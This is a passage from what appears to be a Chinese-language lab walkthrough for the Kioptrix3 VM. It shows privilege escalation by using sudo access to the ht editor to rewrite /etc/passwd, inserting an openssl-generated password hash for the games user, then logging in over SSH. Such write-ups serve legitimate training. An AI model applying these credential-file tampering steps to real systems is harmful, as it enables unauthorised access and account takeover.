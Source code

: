 设置正确的终端类型：你可以通过设置`TERM`环境变量为正确的终端类型来解决该问题。常见的终端类型包括`xterm`、`xterm-color`等。使用以下命令设置`TERM`环境变量：

```
export TERM=xterm
```

现在`sudo ht`启动编辑器。打开`/etc/passwd`文件，然后（**重要**）将副本保存在安全的地方，alt+f，选择F3那个打开/etc/passwd文件，开始编辑

<figure><img src="../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

我们现在要做的是生成密码哈希并将其提供给`games`用户。要创建哈希，我们可以使用以下`openssl`工具：

```
┌──(root㉿kali)-[~]
└─# openssl passwd -1 -salt pwned
Password: 
$1$pwned$RGq/Z65jqs1jEZhVtg.Aj0
```

现在我们可以将此哈希值复制并粘贴到用户的文件中`games`（替换 ）`x`并将文件保存回`/etc/passwd`.

```
games:$1$pwned$RGq/Z65jqs1jEZhVtg.Aj0:5:60:games:/usr/games:/bin/sh
```

此时，我们应该能够通过 SSH 连接到盒子，如下所示`games`：

```
┌──(root㉿kali)-[~]
└─# ssh games@192.168.23.130 -oHostKeyAlgorithms=ssh-rsa,ssh-dss
games@192.168.23.130's password: 
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
$ 
```
